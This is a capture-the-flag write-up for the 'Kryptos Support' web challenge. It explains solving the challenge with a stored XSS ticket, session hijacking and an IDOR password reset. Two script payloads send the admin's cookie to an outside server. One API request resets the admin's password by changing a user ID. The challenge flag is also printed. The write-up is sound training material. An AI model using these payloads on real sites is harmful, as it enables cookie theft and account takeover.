 ```yaml
---
layout: default
title: Kryptos Support
---
```


# [Cyber Apocalypse](index.md) - Web - Kryptos Support

> The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?

This challenge is a support portal for some kind of vault. The landing page allows the user to enter text in a box and submit this as a ticket for an admin to review. There was no authentication on this page. 

![Kryptos screenshot](web-kryptossupport/screenshot-00.png)

There was a link to the **backend**, which led to a login page.

![Kryptos screenshot](web-kryptossupport/screenshot-01.png)

The login form was not susceptible to a simple SQL injection, so I looked elsewhere.

Using **gobuster** to do a quick scan of the website for different pages and/or API endpoints. I found the following:

```
/admin
/settings
/tickets
/logout
/login
/static
```
`/admin`, `/settings`, and `/tickets` redirected to the login page.

The ticket submit form worked, and when submitting a ticket the page displayed a message indicating that support staff would look at it. 

I noted that the ticket data was submitted to `/api/tickets/add`, so I did some exploring looking for other API endpoints (just manually with Firefox) and did not find much. The login form used `/api/login`, but I was not able to view tickets or logins.

The ticket form did not appear to sanitize it's input, so I decided to try stealing the support staff's cookies with a cross-site scripting attack. A quick google search gave me some example XSS cookie stealing code, which I modified for my own use.

I set up a simple web server on a VM with python, using the following commands:

```
mkdir emptyfolder
cd emptyfolder
python3 -m http.server 1337
```
Then I submitted this javascript code in a ticket, and waited for the response. 

```javscript
<script>var i=new Image;i.src="https://my-ip-address-was-here:1337/?"+document.cookie;</script>
```
The URL of the request contained the cookie information, so I was able to simply copy and paste this from my console window.

Later, I discovered [Requestbin](https://requestbin.io) which would have made this a bit easier, and wouldn't as easily reveal my own IP address.

```javscript
<script>var i=new Image;i.src="https://requestbin.io/1du9x2z1/?"+document.cookie;</script>
```

![Kryptos screenshot](web-kryptossupport/screenshot-03.png)


The cookie data was:
```
session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE
```


I noted that the session value was a JWT that can be decoded - each section, separated by periods, is just base64 encoded.
```json
{"alg":"HS256","typ":"JWT"}
```
```json
{"username":"moderator","uid":100,"iat":1652628044}
```
*The last section is not legible, it's a signature for the above data*

I noted that the user was named `moderator` and had a `uid` of `100`.

The JWT's signature wouldn't be valid if I modified the uid or username, so I can't easily exploit those at this point.

In Firefox, I created a cookie named `session` with the value `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MjgwNDR9.zewYLE5ZOkKHzHJlTA0eGrasx6-31UL5Jo9mhMH5RnE`

In my exploration above, I had found `/tickets`, so with my new cookie I visited that page and was able to view the submitted tickets.


![Kryptos screenshot](web-kryptossupport/screenshot-04.png)

There were two tickets previously submitted which contained some numbers (`000083921` and `000076439`) which I noted for later (but never ended up using). The tickets did not contain names or usernames, so I was not able to get much info from them.


![Kryptos screenshot](web-kryptossupport/screenshot-05.png)

There was a **settings** link, which went to a page that allowed me to change the password of the currently logged in user. Trying this, I was able to reset the password of the **moderator** account. In a "real" engagement, this would make it pretty obvious that the system was compromised, considering the moderator user had just viewed my ticket and was presumably actively using the system, and would notice very quickly that their password had changed to something that they did not know. Luckily, the "moderator" user was just a script because this is just a challenge system, and wouldn't notice a thing.

Using Firefox developer tools, I noticed that changing the password sent a request to the api endpoint `/api/users/update` with the following payload:

```json
{
	"password" : "abc123",
	"uid" : "100"
}
```

Unlike the cookie, there is no cryptographic signature here, so I tried changing the `uid` value to `1`. I figured that in most cases, the admin account will be the first account in the database, so probably would have an ID of 1. I used [Insomnia](https://insomnia.rest/) to send this payload, but I later discovered that Firefox developer tools allow you to edit and re-submit the request, and I could have just used that.

```json
{
	"password" : "abc123",
	"uid" : "1"
}
```

![Kryptos screenshot](web-kryptossupport/screenshot-06.png)

The response from the API was "Password for admin changed successfully", which gave me the admin username.

The "moderator" account clearly had permissions to reset passwords, but the system allowed it to reset *any* user's password, including the admin. Some security probably should have been in place to prevent a user with password reset privileges from resetting passwords of anyone else at the same or higher security levels, or something like that.

Logging out of the moderator account, and into the admin account using `admin` and the password I set granted me access, and displayed the flag.


![Kryptos screenshot](web-kryptossupport/screenshot-07.png)

```
HTB{x55_4nd_id0rs_ar3_fun!!}
```